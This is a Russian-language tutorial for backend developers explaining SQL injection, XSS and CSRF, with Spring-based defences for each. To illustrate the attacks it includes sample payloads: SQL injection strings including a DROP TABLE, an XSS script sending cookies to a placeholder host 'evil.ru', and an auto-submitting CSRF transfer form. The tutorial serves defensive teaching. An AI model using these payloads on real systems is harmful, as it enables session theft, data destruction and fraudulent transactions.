


# Веб-атаки: CSRF, XSS, SQL Injection

Три самые известные веб-уязвимости, которые обязательно нужно понимать бэкендеру.
Для каждой разберём: в чём суть, как атакуют и как защищаться (в том числе
средствами Spring).

## SQL Injection (внедрение SQL)

**Суть:** приложение вставляет пользовательский ввод **прямо в текст SQL-запроса**, и
злоумышленник подсовывает туда кусок SQL, меняющий смысл запроса.

**Как атакуют.** Опасный код — склейка строки:

```java
// ОПАСНО: ввод вставлен прямо в запрос
String sql = "SELECT * FROM users WHERE name = '" + input + "'";
```

Если в `input` передать `' OR '1'='1`, получится:

```sql
SELECT * FROM users WHERE name = '' OR '1'='1'   -- вернёт всех пользователей
```

А `'; DROP TABLE users; --` может и удалить таблицу.

**Защита — prepared statements** (параметризованные запросы). Значение передаётся
**отдельно** от текста запроса, и БД воспринимает его только как данные, а не как код:

```java
// Безопасно: параметр через ?
"SELECT * FROM users WHERE name = ?"        // JDBC
"SELECT u FROM User u WHERE u.name = :name" // JPQL с :name
```

На практике JPA/Hibernate и Spring Data по умолчанию используют prepared statements —
поэтому главное правило: **никогда не склеивай пользовательский ввод в SQL строкой**.

## XSS (Cross-Site Scripting)

**Суть:** злоумышленник внедряет **свой JavaScript** на страницу, которую увидят
другие пользователи. Скрипт выполнится в их браузере — например, украдёт куки/сессию.

**Как атакуют.** Пользователь отправляет комментарий:

```html
<script>fetch('http://evil.ru?c=' + document.cookie)</script>
```

Если сайт выведет этот комментарий на страницу **как есть**, у каждого, кто откроет
страницу, скрипт выполнится и отправит его куки злоумышленнику.



**Защита:**

- **Экранировать вывод** — при выводе пользовательских данных превращать `<`, `>` в
  безопасные символы. Шаблонизаторы (Thymeleaf) делают это **по умолчанию**.
- **Не доверять вводу**, валидировать его.
- **Куки с флагом `HttpOnly`** — тогда JavaScript не может прочитать куку сессии,
  даже если XSS случился.
- Заголовок **Content-Security-Policy** — ограничивает, какие скрипты вообще могут
  выполняться.

## CSRF (Cross-Site Request Forgery)

**Суть:** злоумышленник заставляет **браузер жертвы** отправить запрос на сайт, где
она **уже залогинена**, — используя то, что браузер сам приложит её куки.

**Как атакуют.** Жертва залогинена в банке. Заходит на вредоносный сайт, где спрятана
форма/картинка, отправляющая запрос на банк:

```html
<form action="https://bank.ru/transfer" method="POST">
  <input name="to" value="злоумышленник">
  <input name="amount" value="10000">
</form>   <!-- отправляется автоматически -->
```

Браузер отправит запрос **вместе с кукой сессии** жертвы — банк подумает, что это она
сама, и выполнит перевод.



**Защита:**

- **CSRF-токен** — сервер выдаёт уникальный токен, который должен прийти с каждым
  изменяющим запросом. Чужой сайт этот токен не знает → запрос отклоняется. Spring
  Security включает CSRF-защиту по умолчанию для форм.
- **`SameSite`-куки** — браузер не отправляет куку в запросах с чужого сайта.
- Важно: CSRF актуален для **куки-сессий**. Для stateless-API на токенах в заголовке
  (JWT в `Authorization`) CSRF обычно не грозит — токен не подставляется браузером
  автоматически.

## Как это закрывает Spring Security

- **SQL Injection** — не про Security напрямую; закрывается prepared statements
  (JPA/JDBC делают это сами).
- **XSS** — экранирование вывода (Thymeleaf), `HttpOnly`-куки, заголовки безопасности.
- **CSRF** — встроенная защита CSRF-токеном (включена по умолчанию), `SameSite`-куки.

## Что запомнить

- **SQL Injection** — ввод склеен в SQL; защита — **prepared statements** (не
  склеивать строки).
- **XSS** — чужой JS на странице; защита — **экранирование вывода**, `HttpOnly`-куки,
  CSP.
- **CSRF** — браузер шлёт запрос с кукой жертвы с чужого сайта; защита — **CSRF-токен**
  и `SameSite`-куки; для токенных API неактуально.
